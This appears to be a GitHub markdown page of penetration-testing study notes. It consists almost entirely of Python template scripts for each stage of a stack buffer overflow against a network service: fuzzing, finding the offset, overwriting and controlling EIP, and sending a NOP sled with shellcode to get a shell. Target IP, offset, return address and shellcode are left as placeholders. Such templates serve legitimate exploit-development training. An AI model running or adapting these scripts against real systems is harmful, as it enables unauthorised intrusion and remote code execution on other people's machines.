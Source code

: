 ### Python Templates for BOF                                                                                                        

There are different stages of BOF and we'll have different scripts for each stage:

### Spiking & Fuzzing
```Python
#!/usr/bin/python

import socket,sys
from time import sleep

buffer = "A" * 100
RHOST = #IP address of the target machine, example: "10.10.10.0"
RPORT = #Port number of the target machine, example: 21 

while True:
    try:
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect((RHOST,RPORT))
        s.send(buffer + "\r\n")
        s.close()
        sleep(1)
        buffer += "A" * 100
    except:
        print("Debugger crashed at %s bytes" % str(len(buffer)))
        sys.exit
```
### Finding Offset
```Python
#!/usr/bin/python

import sys,socket
from time import sleep

buffer = #Based on at what bytes you get to EIP, generate your pattern and insert it here, example "AAAA"
RHOST = #IP address of the target machine, example: "10.10.10.0"
RPORT = #Port number of the target machine, example: 21

try:
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect((RHOST,RPORT))
    s.send(buffer + "\r\n")
    s.close()
except:
    print("Debugger crashed at %s bytes" % str(len(buffer)))
    sys.exit
```
### Overwriting EIP
```Python
#!/usr/bin/python

import socket,sys

buffer = #Based on the offset bytes, place your pattern here 
buffer += "B" * 4
RHOST = #IP address of the target machine, example: "10.10.10.0"
RPORT = #Port number of the target machine, example: 21

try:
    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((RHOST,RPORT))
    s.send((buffer + "\r\n"))
    s.close()
    
except:
    print("Error connecting to server")
    sys.exit
```
### Owning EIP
```Python
#!/usr/bin/python

import socket,sys

buffer = "A" * (Offset Value)
buffer += #Address of EIP
RHOST = #IP address of the target machine, example: "10.10.10.0"
RPORT = #Port number of the target machine, example: 21

try:
    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((RHOST,RPORT))
    s.send((buffer + "\r\n"))
    s.close()
    
except:
    print("Error connecting to server")
    sys.exit
```
### Getting a Shell
```Python
#!/usr/bin/python

import socket

shellcode = #Place your shellcode here
buff = "A" * (Offset Value)
buff += #Address of EIP 
buff += "\x90" * (8/10/12/16/20...) 
buff += shellcode
RHOST = #IP address of the target machine, example: "10.10.10.0"
RPORT = #Port number of the target machine, example: 21

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect((RHOST,RPORT))
s.send(buff + "\r\n")
s.close()
```
[<= Go Back to Main Menu](index.md)
[<= Go Back to BOF Menu](bufferoverflows.md)

